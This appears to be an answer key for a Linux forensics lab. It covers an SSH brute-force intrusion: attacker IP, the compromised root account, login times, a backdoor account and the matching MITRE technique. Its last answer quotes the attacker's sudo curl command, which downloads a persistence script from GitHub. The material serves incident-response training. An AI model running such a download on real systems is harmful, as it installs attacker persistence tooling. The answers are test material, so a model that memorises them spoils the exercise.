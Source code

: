 
Q1: Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

A: 65.2.161.68

Q2: The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

A: root

Q3: Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

A: 2024-03-06 06:32:45

Q4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

A: 37

Q5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

A: cyberjunkie

Q6: What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

A: T1136.001

Q7: What time did the attacker's first SSH session end according to auth.log?

A: 2024-03-06 06:37:24

Q8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

A: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
